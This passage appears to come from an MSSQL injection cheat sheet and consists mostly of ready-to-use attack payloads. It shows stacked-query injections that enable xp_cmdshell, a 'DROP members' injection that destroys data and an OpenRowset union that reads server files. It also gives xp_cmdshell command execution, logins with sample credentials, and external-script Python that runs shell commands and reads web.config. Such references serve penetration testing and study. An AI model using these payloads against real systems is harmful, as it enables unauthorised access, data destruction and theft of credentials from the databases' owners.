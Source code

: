     -- using the stacked query to enable xp_cmdshell
    -- you won't have the output of the query, redirect it to a file 
    SELECT id, username, password FROM users WHERE username = 'admin'exec('sp_configure''show advanced option'',''1''reconfigure')exec('sp_configure''xp_cmdshell'',''1''reconfigure')--
    ```

* Use a semi-colon ";" to add another query
    ```sql
    ProductID=1; DROP members--
    ```


## MSSQL Read file

**Permissions**: The `BULK` option requires the `ADMINISTER BULK OPERATIONS` or the `ADMINISTER DATABASE BULK OPERATIONS` permission.

```sql
-1 union select null,(select x from OpenRowset(BULK 'C:\Windows\win.ini',SINGLE_CLOB) R(x)),null,null
```


## MSSQL Command execution

```sql
EXEC xp_cmdshell "net user";
EXEC master.dbo.xp_cmdshell 'cmd.exe dir c:';
EXEC master.dbo.xp_cmdshell 'ping 127.0.0.1';
```

If you need to reactivate xp_cmdshell (disabled by default in SQL Server 2005)

```sql
EXEC sp_configure 'show advanced options',1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell',1;
RECONFIGURE;
```

To interact with the MSSQL instance.

```powershell
sqsh -S 192.168.1.X -U sa -P superPassword
python mssqlclient.py WORKGROUP/Administrator:password@192.168.1X -port 46758
```

Execute Python script 

> Executed by a different user than the one using xp_cmdshell to execute commands

```powershell
#Print the user being used (and execute commands)
EXECUTE sp_execute_external_script @language = N'Python', @script = N'print(__import__("getpass").getuser())'
EXECUTE sp_execute_external_script @language = N'Python', @script = N'print(__import__("os").system("whoami"))'
#Open and read a file
EXECUTE sp_execute_external_script @language = N'Python', @script = N'print(open("C:\\inetpub\\wwwroot\\web.config", "r").read())'
#Multiline
EXECUTE sp_execute_external_script @language = N'Python', @script = N'
import sys
print(sys.version)
'
GO
```
